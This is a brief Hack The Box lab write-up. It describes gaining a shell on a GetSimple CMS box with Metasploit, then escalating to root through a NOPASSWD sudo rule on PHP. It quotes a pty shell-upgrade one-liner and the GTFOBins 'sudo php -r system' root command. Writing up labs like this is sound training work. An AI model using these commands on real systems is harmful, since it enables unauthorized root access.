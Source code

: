 <img width="611" height="66" alt="HTBLAB-GetSimple" src="https://github.com/user-attachments/assets/4ecee1d4-d39f-41e5-8224-0de185c8eee3" />


<img width="663" height="323" alt="HTBLAB-metasploit" src="https://github.com/user-attachments/assets/76e9b161-98d5-4794-906c-b90fce636f6c" />

<img width="555" height="486" alt="HTBLAB-exploit_options" src="https://github.com/user-attachments/assets/dc2c02c2-3d83-4334-b851-273fb096a4c7" />


Exploit completed successfully and spawned a shell

<img width="630" height="128" alt="HTBLAB-exploit" src="https://github.com/user-attachments/assets/dcab40ce-4746-4a66-bcd7-f6ff5a3a599e" />

Upgrade to Linux shell with "shell" then python script: python3 -c 'import pty; pty.spawn("/bin/bash")'


## 🚀 Privilege Escalation

Sudo -l gives us the following output: 

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

This indicates we can run PHP commands as root.

Privilege escalation via GTFObins:

sudo php -r "system('/bin/sh');"

<img width="668" height="105" alt="HTBLAB-root" src="https://github.com/user-attachments/assets/0a94d5bb-d3fa-4511-86db-ee0991bc41c7" />


We gained a root shell. 

## 📝 Notes / Lessons Learned


Thorough directory enumeration can reveal sensitive files containing credentials or configuration details

Weak admin password + outdated CMS led to full compromise

Misconfigured sudo privileges (NOPASSWD) allowed root escalation

## Tools used 

nmap
whatweb
gobuster
johntheripper
metasploit
GTFObins



